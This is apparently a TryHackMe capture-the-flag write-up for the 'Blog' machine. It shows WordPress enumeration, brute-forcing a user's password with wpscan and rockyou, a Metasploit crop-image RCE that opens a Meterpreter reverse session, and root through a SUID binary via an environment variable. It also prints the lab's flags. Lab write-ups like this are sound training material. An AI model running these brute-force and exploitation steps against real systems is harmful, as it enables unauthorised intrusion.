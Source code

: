 ```yaml
---
title: "TryHackMe - Blog"
date: 2025-03-26 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation, metasploit, brute force]

---
```


## Introduction

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

## Reconnaissance

```console
> nmap -sC -sV -Pn blog.thm  
```
```console
> wpscan --url http://www.blog.thm 
```

## Exploitation
From the scans, I learn that the WordPress version is 5.0, and I launch Metasploit in search of ready-made exploits.


```console
> msfconsole
> search wordpress 5.0
```

I see several potential exploits to use.


```yaml
0   exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1   exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2   exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3     \_ target: PHP                                         .                .          .      .
   4     \_ target: Unix Command                                .                .          .      .
   5     \_ target: Linux Dropper                               .                .          .      .
   6     \_ target: Windows Command                             .                .          .      .
   7     \_ target: Windows Dropper                             .                .          .      .
   8   exploit/multi/http/wp_litespeed_cookie_theft             2024-09-04       excellent  Yes    Wordpress LiteSpeed Cache plugin cookie theft
   9     \_ target: PHP In-Memory                               .                .          .      .
   10    \_ target: Unix In-Memory                              .                .          .      .
   11    \_ target: Windows In-Memory                           .                .          .      .
   12  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   13  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

```

In this case, I decide to use **exploit/multi/http/wp_crop_rce**. However, to run it, I will need the username and password of the user.

```yaml
Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    *yes*      The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                         tasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if pro
                                         vided)
   USERNAME                    *yes*       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


```

I use this again with **wpscan** 

```console
> wpscan --url blog.thm -P /usr/share/wordlists/rockyou.txt
```

I find two users: **kwheel** and **bjoel** 


```yaml
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

I will now try to obtain the password for this account using the bruteforce method. I can do this in several ways, for example by using **Hydra**, but in this case, I decided to stick with **WPScan**.

```console
> wpscan --url blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt 
```

After a short while, I manage to obtain the password using the bruteforce method.

```yaml
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                              
Trying kwheel / westham Time: 00:01:52 <                           > (2865 / 14347257)  0.01%  ETA: ??:??:??
```

I return to Metasploit to complete the exploit configuration.

```console
> set RHOST [MACHINE_IP]
> set LHOST [MY_IP]
> set password cutiepie1
> set username kwheel
```

and I run it

```console
> exploit
```
It was successful.
```yaml
[*] Meterpreter session 1 opened (10.8.x.x:4444 -> 10.10.x.x32870) at 2025-03-26 09:00:46 -0400
```

I check if I can use commands through Meterpreter : 

```yaml
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux
```

Everything looks fine, so I proceed to the regular system shell

```console
> shell
> script -qc /bin/bash /dev/null
```

I proceed to search the users' files for flags. I find the file **user.txt** in the bjoel directory, but it is not what I'm looking for. There is also a .pdf file here


```yaml
www-data@blog:/home/bjoel$ ls
ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER

```

I start a simple Python server on the target machine to download the .pdf file to my computer

```console
> python3 -m http.server
```

and 

```console
> wget http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
```
on my machine.

```yaml
--2025-03-26 09:15:11--  http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
Resolving blog.thm (blog.thm)... 10.10.73.119
Connecting to blog.thm (blog.thm)|10.10.73.119|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69106 (67K) [application/pdf]
Saving to: ‘Billy_Joel_Termination_May20-2020.pdf’

Billy_Joel_Termination_May 100%[========================================>]  67.49K   160KB/s    in 0.4s    

2025-03-26 09:15:11 (160 KB/s) - ‘Billy_Joel_Termination_May20-2020.pdf’ saved [69106/69106]

```

From the email content, I learn that Billy Joel has been fired

```
You have been terminated for the following reasons:
• Repeated offenses regarding company removable media policy
• Repeated offenses regarding company Acceptable Use Policy
• Repeated offenses regarding tardiness
```

## Privilege Escalation
I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

```console
> find / -perm -u=s -type f 2>/dev/null
```

Among the list of files, my attention was drawn to :

**/usr/sbin/checker**

I try to run it

```console
> usr/sbin/checker
```

However, the program tells me that I am not an administrator

```yaml
/usr/sbin/checker
Not an Admin
```

I analyze the code using the tool **ltrace**

```console
 > ltrace /usr/sbin/checker
 ```
```yaml
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++

```

**getenv("admin) = nil** this means that the **admin** environment variable does not exist at the moment in the process environment. I try to set the admin environment variable manually to attempt to gain administrator privileges.

```bash
> export admin=true
```

And I run the program again.

I have root privileges!

I search through the files on the machine to find and read the flags.

```yaml
root@blog:/# find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

and 

```console
find / -type f -name "root.txt" 2>/dev/null
```


<br>**user.txt :** c8421899aae571f7af486492b71a8ab7 
<br>**root.txt:**  9a0b2b618bef9bfa7ac28c1353d9f318





During my research, I found a very interesting article about exploiting WordPress sites, which I will post here for future reference.
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html#xml-rpc